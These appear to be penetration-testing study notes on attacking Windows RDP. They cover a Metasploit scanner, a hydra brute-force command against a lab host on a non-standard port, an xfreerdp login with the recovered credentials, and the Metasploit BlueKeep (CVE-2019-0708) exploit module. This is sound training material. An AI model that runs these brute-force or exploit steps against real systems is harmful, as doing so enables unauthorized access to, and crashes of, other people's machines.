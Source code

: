 <r>msfconsole</r> has a good RDP scanner to verify if a port is running RDP
+ can `search rdp_scanner` or `use auxiliary/scanner/rdp/rdp_scanner`
  + `set RHOSTS IP`
  + `set RPORT PORT_NUMBER`
+ Will say if it is running and some version information 

Then, <pu>hydra</pu> can be used to do a brute force
+ `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.3.25.177 -s 3333`
  + notice that the port is specified with `-s` because it is not on its tradition 3389
  + can also use the `-t` to limit the speed 

Once the credentials are discovered, can now use <o>xfreerdp</o> to connect 
+ in the CLI, `xfreerdp /u:administrator /p:qwertyuiop /v:10.3.25.177:3333`

### Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep) ###

Have previously used a brute-force attack, will now learn an inherent vulnerability 

#### BlueKeep ####
+ BlueKeep is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network 
+ Made public by Microsoft in May 2019
+ BlueKeep takes advantage of a vulnerability in the Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory, allowing them to remotely execute arbitrary code at the system level without authentication 
  + Kernel is privileged, but can easily cause crashes 
+ A patch was released on May 14th, 2019
+ At the time of discovery, about 1 million systems worldwide were found to be vulnerable 
+ The BlueKeep vulnerability affects multiple versions of Windows:
  + XP
  + Vista
  + Windows 7
  + Windows Server 2008 & R2

#### BlueKeep Exploit ####
+ The BlueKeep vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature
  + Should only utilize verified exploit code and modules for exploitation
+ BlueKeep has an MSF auxiliary module that can check if a target system is vulnerable, also has an exploit module
+ BlueKeep exploit module can be used to exploit vulnerable Windows systems and get a privileged meterpreter session

<r>Note: Targeting Kernel space memory and application can cause system crashes</r>

Will use <r>msfconsole</r> for scanning and exploitation 
+ can `search BlueKeep` 
  + will see the scanner and the exploit 
+ Scanner really only needs `RHOSTS`
+ Same for Exploit, but will need to specify the target type 
  + `show target`
  + select the type 
